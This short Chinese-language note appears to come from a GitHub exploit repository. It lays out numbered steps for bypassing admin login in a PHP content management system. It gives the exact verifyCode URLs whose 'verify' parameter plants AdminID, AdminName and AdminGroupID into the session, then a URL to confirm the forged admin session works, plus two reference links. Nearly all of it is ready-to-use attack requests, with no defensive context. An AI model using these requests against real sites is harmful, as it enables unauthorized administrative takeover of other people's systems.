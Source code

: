 1.访问 /index.php/base?a=Version 判断版本

2.访问 /index.php/Admin/public/Login 生成一个 PHPSESSID

3.访问下面两条url 绕过session检测

```
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminID&type=png
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminName&type=png
```
4.访问 ```/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminGroupID&type=png```

5.访问  ```/index.php/Admin/Public/AdminLeft/MenuTopID/7 判断PHPSESSID是否有效```
6.参考
```
https://www.aisoutu.com/a/391281
https://www.cnblogs.com/Pan3a/p/14867105.html
```
